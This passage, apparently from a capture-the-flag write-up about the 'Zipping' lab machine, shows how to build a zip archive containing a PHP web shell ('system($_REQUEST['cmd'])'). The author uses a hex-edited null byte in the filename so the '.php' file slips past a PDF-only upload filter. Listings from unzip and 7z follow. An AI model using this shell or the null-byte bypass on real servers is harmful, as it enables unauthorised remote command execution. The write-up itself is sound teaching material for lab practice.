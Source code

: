 

However, if I look at a hex dump of the resulting file, the `\x00.pdf`
is gone:

![](/img/image-20240110123240105.png)

Instead, I'll write one with two dots, the first acting as a
placeholder:



    >>> with zipfile.ZipFile("nulls.zip", "w") as zip_file:
    ...     zip_file.writestr("0xdf.php..pdf", "<?php system($_REQUEST['cmd']); ?>")
    ... 



Now I'll open `nulls.zip` in a hex editor find the references to the
filename:

![](/img/image-20240110123544736.png)

Changing the first one will break `7z`, which is important because
that's what Zipping uses. I'll just change the first null in the second
filename:

![](/img/image-20240110123955810.png)

#### Handling Nulls 7z/zip vs PHP

Once I've edited the null into the second filename instance inside the
zip, `unzip` and `7z` both show it as just `0xdf.php`, stopping at the
null:



    oxdf@hacky$ unzip -l nulls.zip 
    Archive:  nulls.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
           34  2024-01-10 12:34   0xdf.php
    ---------                     -------
           34                     1 file
    oxdf@hacky$ 7z l nulls.zip 

    7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
    p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,8 CPUs AMD Ryzen 9 5900X 12-Core Processor             (A20F10),ASM,AES-NI)

    Scanning the drive for archives:
    1 file, 158 bytes (1 KiB)

    Listing archive: nulls.zip

    --
    Path = nulls.zip
    Type = zip
    Physical Size = 158
